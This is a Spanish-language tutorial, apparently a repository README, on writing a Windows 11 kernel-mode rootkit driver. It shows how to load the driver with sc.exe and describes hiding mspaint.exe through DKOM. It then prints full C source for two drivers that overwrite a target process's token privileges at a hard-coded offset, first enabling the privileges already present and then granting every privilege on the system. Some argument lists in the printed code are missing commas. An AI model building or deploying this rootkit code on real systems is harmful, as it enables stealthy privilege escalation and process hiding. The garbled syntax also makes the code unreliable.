# Manejo de estructuras y funciones del kernel en un rootkit de windows 11
## Creación del proyecto para un kernel Driver de Windows

Instalamos Visual Studio Code 2022 junto con el SDK de windows y el WDK, una vez que esté todo instalado creamos un proyecto KMDF (Kernel mode driver) vacío
   


Creamos un nuevo elemento al que llamaremos Driver.c en él copiamos el código del ejemplo `pocs\KMDF_1DriverHelloWorld\DriverHelloWorld.c` y compilamos la solución



Podemos ver en la ruta correspondiente que el driver se ha generado correctamente (.sys)



Abrimos DebugView y nos aseguramos que capturamos los mensajes del kernel



Y cargamos el driver


    sc.exe stop KMDFDriver1
    sc.exe delete KMDFDriver1
    sc.exe create KMDFDriver1 type=kernel start=demand binpath="C:\Users\Jose\source\repos\KMDFDriver1\x64\Debug\KMDFDriver1.sys"
    sc.exe start KMDFDriver1

Si vemos en autoruns la pestaña drivers vemos que efectivamente está cargado 





Y en la herramienta DebugView podemos ver los prints del código de nuestro driver conforme arrancamos y paramos el servicio



## Ocultacion de procesos usando DKOM

Vamos a realizar el mismo procedimiento pero con el ejemplo `pocs\KMDF_3DriverDKOM\DriverDKOM.c` que usando la técnica DKOM nos permite ocultar un proceso del sistema.

En este caso vamos a ocultar el proceso mspaint.exe



Vemos que el proceso inicialmente se muestra en el listado de procesos



Cargamos el nuevo driver y arrancamos el servicio



Y vemos cómo efectivamente el proceso desaparece del listado




## Full privileges DKOM

 ### SetPrivs1.cpp

Vamos a usar la misma técnica DKOM para aumentar los privilegios del proceso que queramos conociendo su PID

Para este ejemplo vamos a usar el proceso `mspaint.exe` que en nuestra ejecución tiene los siguientes permisos por defecto y tiene el `PID 9908`



Lo primero que vamos a hacer es cambiar los privilegios present por los enables accediendo de registro `_SEP_TOKEN_PRIVILEGES` para conocer el offset de los registros vamos a usar la web 
[vergiliusproject](https://www.vergiliusproject.com/) para nuestro windows que se trata del siguiente: 





Por tanto en el código definimos las siguientes variables



```c
//
// Global Variables
//
ULONG g_PrivilegesOffset = 0x40u;
UINT32 processPid = 2944;

```

Lo primero que haremos será obtener la información del proceso usando la función `PsLookupProcessByProcessId`

https://learn.microsoft.com/es-es/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid

Si el proceso se encuentra corriendo en el sistema obtendremos la información relativa a su token usando `PsReferencePrimaryToken`

https://learn.microsoft.com/es-es/windows-hardware/drivers/ddi/ntifs/nf-ntifs-psreferenceprimarytoken

Y con esta información accederemos al campo privileges que ya habíamos visto que era el `offset 0x40`

Ahora tan solo tenemos que asignar a los valores `present` a los `enabled`

```c
PACCESS_TOKEN pPrimaryToken = ::PsReferencePrimaryToken(Process);
auto pSepToken = (PSEP_TOKEN_PRIVILEGES)((ULONG_PTR)pPrimaryToken + g_PrivilegesOffset);

KdPrint((DRIVER_PREFIX "Primary token for PID %u is at %p.\n" ::HandleToULong(pid) pPrimaryToken));
KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is at %p.\n" ::HandleToULong(pid) pSepToken));

pSepToken->Enabled = pSepToken->Present;

KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is overwritten successfully.\n" HandleToULong(pid)));
```

Compilamos la solución y cargamos el driver

```
sc.exe stop KMDFDriver1
sc.exe delete KMDFDriver1
sc.exe create KMDFDriver1 type=kernel start=demand binpath="C:\Users\Jose\source\repos\KMDFDriver1\x64\Debug\KMDFDriver1.sys"
sc.exe start KMDFDriver1
```

Y vemos como los permisos del proceso han cambiado



```c 
#include <ntifs.h>

#define DRIVER_PREFIX "GetFullPrivsDrv: "
#define DEVICE_PATH L"\\Device\\GetFullPrivs"
#define SYMLINK_PATH L"\\??\\GetFullPrivs"

//
// Global Variables
//
ULONG g_PrivilegesOffset = 0x40u;
UINT32 processPid = 2524;

//
// Enum definition
//

//
// Struct definition
//
typedef struct _SEP_TOKEN_PRIVILEGES
{
	ULONGLONG Present;
	ULONGLONG Enabled;
	ULONGLONG EnabledByDefault;
} SEP_TOKEN_PRIVILEGES * PSEP_TOKEN_PRIVILEGES;

//
// Prototypes
//
void DriverUnload(_In_ PDRIVER_OBJECT DriverObject);

//
// Driver routines
//
extern "C"
NTSTATUS DriverEntry(
	_In_ PDRIVER_OBJECT  DriverObject
	_In_ PUNICODE_STRING RegistryPath)
{
	/* Local variables */
	PEPROCESS Process = nullptr;
	UNREFERENCED_PARAMETER(RegistryPath);
	NTSTATUS ntstatus = STATUS_FAILED_DRIVER_ENTRY;

	/* Set unload callback */
	DriverObject->DriverUnload = DriverUnload;

	/* Print driver load OK */
	KdPrint((DRIVER_PREFIX "Driver is loaded successfully.\n"));

	/* Get process info using provided pid */
	auto pid = ::ULongToHandle((ULONG)processPid);
	KdPrint((DRIVER_PREFIX "pid value: %d.\n" pid));
	ntstatus = ::PsLookupProcessByProcessId(pid &Process);

	if (!NT_SUCCESS(ntstatus))
	{
		KdPrint((DRIVER_PREFIX "Failed to PsLookupProcessByProcessId() (NTSTATUS = 0x%08X).\n" ntstatus));
	}
	else
	{
		PACCESS_TOKEN pPrimaryToken = ::PsReferencePrimaryToken(Process);
		auto pSepToken = (PSEP_TOKEN_PRIVILEGES)((ULONG_PTR)pPrimaryToken + g_PrivilegesOffset);

		KdPrint((DRIVER_PREFIX "Primary token for PID %u is at %p.\n" ::HandleToULong(pid) pPrimaryToken));
		KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is at %p.\n" ::HandleToULong(pid) pSepToken));

		pSepToken->Enabled = pSepToken->Present;

		KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is overwritten successfully.\n" HandleToULong(pid)));

	}

	return ntstatus;
}

VOID
DriverUnload(
	_In_    PDRIVER_OBJECT      pDriverObject                                           // https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_driver_object
)
{
	// Preventing compiler warnings for unused parameter
	UNREFERENCED_PARAMETER(pDriverObject);

	// Print a debug message to indicate the driver has been unloaded
	DbgPrint("SetPrivs1: Unloading... Service has stopped");							// https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-dbgprint
}

```

### SetPrivs2.cpp

Usando como ejemplo el proyecto GetFullPrivs de:

https://github.com/daem0nc0re/VectorKernel

Vamos a añadir nueva funcionalidad al programa anterior para no sólo agregar los privilegios presentes sino dar al proceso todos los privilegios posibles en el sistema.

Para ello en lugar de establecer los permisos que están presentes con el valor de los habilitados vamos a establecer en ese registro el siguiente valor

```c
#define VALID_PRIVILEGE_MASK 0x0000001FFFFFFFFCULL
```
```c
        PACCESS_TOKEN pPrimaryToken = ::PsReferencePrimaryToken(Process);
		auto pSepToken = (PSEP_TOKEN_PRIVILEGES)((ULONG_PTR)pPrimaryToken + g_PrivilegesOffset);

		KdPrint((DRIVER_PREFIX "Primary token for PID %u is at %p.\n" ::HandleToULong(pid) pPrimaryToken));
		KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is at %p.\n" ::HandleToULong(pid) pSepToken));

		pSepToken->Present = VALID_PRIVILEGE_MASK;
		pSepToken->Enabled = VALID_PRIVILEGE_MASK;
		pSepToken->EnabledByDefault = VALID_PRIVILEGE_MASK;

		KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is overwritten successfully.\n" HandleToULong(pid)));
```

https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants

Que hace que todos de los permisos del sistema están habilitados.



```c
#include <ntifs.h>

#define DRIVER_PREFIX "GetFullPrivsDrv: "
#define DEVICE_PATH L"\\Device\\GetFullPrivs"
#define SYMLINK_PATH L"\\??\\GetFullPrivs"

#define VALID_PRIVILEGE_MASK 0x0000001FFFFFFFFCULL

//
// Global Variables
//
ULONG g_PrivilegesOffset = 0x40u;
UINT32 processPid = 2524;

//
// Enum definition
//

//
// Struct definition
//
typedef struct _SEP_TOKEN_PRIVILEGES
{
	ULONGLONG Present;
	ULONGLONG Enabled;
	ULONGLONG EnabledByDefault;
} SEP_TOKEN_PRIVILEGES * PSEP_TOKEN_PRIVILEGES;

//
// Prototypes
//
void DriverUnload(_In_ PDRIVER_OBJECT DriverObject);

//
// Driver routines
//
extern "C"
NTSTATUS DriverEntry(
	_In_ PDRIVER_OBJECT  DriverObject
	_In_ PUNICODE_STRING RegistryPath)
{
	/* Local variables */
	PEPROCESS Process = nullptr;
	UNREFERENCED_PARAMETER(RegistryPath);
	NTSTATUS ntstatus = STATUS_FAILED_DRIVER_ENTRY;

	/* Set unload callback */
	DriverObject->DriverUnload = DriverUnload;

	/* Print driver load OK */
	KdPrint((DRIVER_PREFIX "Driver is loaded successfully.\n"));

	/* Get process info using provided pid */
	auto pid = ::ULongToHandle((ULONG)processPid);
	KdPrint((DRIVER_PREFIX "pid value: %d.\n" pid));
	ntstatus = ::PsLookupProcessByProcessId(pid &Process);

	if (!NT_SUCCESS(ntstatus))
	{
		KdPrint((DRIVER_PREFIX "Failed to PsLookupProcessByProcessId() (NTSTATUS = 0x%08X).\n" ntstatus));
	}
	else
	{
		PACCESS_TOKEN pPrimaryToken = ::PsReferencePrimaryToken(Process);
		auto pSepToken = (PSEP_TOKEN_PRIVILEGES)((ULONG_PTR)pPrimaryToken + g_PrivilegesOffset);

		KdPrint((DRIVER_PREFIX "Primary token for PID %u is at %p.\n" ::HandleToULong(pid) pPrimaryToken));
		KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is at %p.\n" ::HandleToULong(pid) pSepToken));

		pSepToken->Present = VALID_PRIVILEGE_MASK;
		pSepToken->Enabled = VALID_PRIVILEGE_MASK;
		pSepToken->EnabledByDefault = VALID_PRIVILEGE_MASK;

		KdPrint((DRIVER_PREFIX "_SEP_TOKEN_PRIVILEGES for PID %u is overwritten successfully.\n" HandleToULong(pid)));

	}

	return ntstatus;
}

VOID
DriverUnload(
	_In_    PDRIVER_OBJECT      pDriverObject                                           // https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/ns-wdm-_driver_object
)
{
	// Preventing compiler warnings for unused parameter
	UNREFERENCED_PARAMETER(pDriverObject);

	// Print a debug message to indicate the driver has been unloaded
	DbgPrint("SetPrivs1: Unloading... Service has stopped");							// https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-dbgprint
}

```


## Próximo paso

1. Agregar el uso de IOCTL para controlar el driver desde una aplicación cliente desde la que se pase el nombre del proceso
2. Usar `RtlGetVersion` para hacer el código compatible con varias versiones de windows
   